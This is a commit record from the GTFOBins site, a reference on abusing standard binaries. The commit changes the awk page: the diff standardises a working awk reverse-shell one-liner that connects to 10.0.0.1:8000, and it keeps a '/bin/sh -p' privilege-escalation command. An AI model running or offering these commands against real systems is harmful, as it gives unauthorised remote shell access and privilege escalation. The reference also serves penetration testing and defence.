

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/awk.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 951 px from its top, so only the background shows below that.

Commit message:
Standardize awk reverse-shell

```diff
--- a/_gtfobins/awk.md
+++ b/_gtfobins/awk.md
@@ -8,5 +8,8 @@ functions:
     - code: ./awk 'BEGIN {system("/bin/sh -p")}'
   reverse-shell:
     - description: Run `nc -l -p 8000` to receive the shell on the other end.
-      code: awk -v RHOST=localhost -v RPORT=8000 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s;}}'
+      code: |
+        RHOST=10.0.0.1
+        RPORT=8000
+        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s;}}'
 ---
```
